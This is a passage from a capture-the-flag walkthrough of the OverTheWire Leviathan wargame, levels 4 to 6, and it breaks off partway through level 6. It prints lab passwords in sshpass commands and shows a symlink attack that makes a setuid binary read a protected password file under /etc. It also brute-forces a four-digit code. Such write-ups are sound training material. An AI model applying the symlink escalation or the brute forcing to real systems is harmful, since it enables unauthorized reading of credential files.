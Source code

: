 Seems like its a binary message. Let's use a binary to text [convertor](https://www.rapidtables.com/convert/number/binary-to-ascii.html) to get the message.

``Tith4cokei``


# Level 5

``sshpass -p Tith4cokei ssh leviathan5@leviathan.labs.overthewire.org -p 2223``

```
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ls -l leviathan5
-r-sr-x--- 1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                               = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                         = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

What happens if we create a file inside ``/tmp/file.log``?

```
leviathan5@leviathan:~$ ls /tmp/file.log
ls: cannot access '/tmp/file.log': No such file or directory
leviathan5@leviathan:~$ echo "hi" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
hi
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

Interesting.. It seems that the script will read the file and then deletes it. Can we then create a file in ``/tmp/file.log`` and then use the symbolic link to link the file to the password file?

```
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```


# Level 6

``sshpass -p UgaoFee4li ssh leviathan6@leviathan.labs.overthewire.org -p 2223``

```
leviathan6@leviathan:~$ ls
leviathan6
leviathan6@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ for i in {0000..9999}; do echo $i; ./leviathan6 $i; done
.
.
.
.
.
Wrong
7120
```